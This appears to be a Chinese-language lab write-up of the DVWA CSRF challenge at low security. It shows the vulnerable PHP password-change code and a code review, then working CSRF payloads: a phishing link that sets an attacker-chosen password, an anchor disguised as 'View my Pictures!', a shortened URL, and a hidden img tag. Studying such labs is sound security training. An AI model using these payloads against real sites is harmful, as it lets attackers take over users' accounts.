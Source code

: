 # CSRF - Low

## View Source

```PHP
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

- [`isset()`](https://www.php.net/manual/zh/function.isset.php)
    - 檢查變數是否已設置
    - I.e., *Change* 按鈕按下去
- [`mysqli_real_escape_string()`](https://www.php.net/manual/zh/mysqli.real-escape-string.php)
    - 會過濾 `NUL（ASCII 0)`、`\n`、`\r` 等字元來防止 SQLi

### 身分驗證

- `docker exec -it dvwa /bin/bash`
    - 進入 docker
- `vim /var/www/html/dvwa/includes/dvwaPage.inc.php`
    - https://github.com/digininja/DVWA/blob/master/dvwa/includes/dvwaPage.inc.php#L79-L153
- *Console* 輸入 `document.cookie` 可以看到 `"PHPSESSID=5ko63c60bbq3ebg69pjdsvihc1; security=low"`

## Code Review

- 只透過 *L14* 檢查使用者輸入的兩個密碼是否相同
- 密碼相同則 *L20* 就做 *md5* 後更新進資料庫
- 點擊 *Change* 按鈕後發出 *request* 包含 *cookie* 和輸入的新密碼
    - E.g., `http://127.0.0.1/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`
    - 透過 *Cookie* 的 `PHPSESSID` 來判斷發出 *request* 的使用者身分

## Answer

- 搭配社交工程，發揮創意！
    - E.g., 構造惡意的釣魚連結來誘騙使用者點擊
        - `http://127.0.0.1/vulnerabilities/csrf/?password_new=<Attacker>&password_conf=<Attacker>&Change=Change#`
    - E.g., 釣魚網站包含惡意的連結
        - `<a href="http://127.0.0.1/vulnerabilities/csrf/?password_new=<Attacker>&password_conf=<Attacker>&Change=Change#">View my Pictures!</a>`
    - E.g., 可搭配短網址來隱藏
        - `https://bit.ly/3iF8Sxi`
        - `<a href="https://bit.ly/3iF8Sxi">View my Pictures!</a>`

### Example

```
<a href="http://127.0.0.1/vulnerabilities/csrf/?password_new=<Attacker>&password_conf=<Attacker>&Change=Change#">View my Pictures!</a>
<img src="https://bit.ly/3iF8Sxi" width="0" height="0" border="0" style="display:none">
```

### Note

> 驗證密碼有沒有改成功可以到 *Brute Force* 嘗試
> 忘記自己密碼改成什麼的話可以到 *Setup / Reset DB* 重設資料庫 Or 還原 *Virtual Machine* 快照等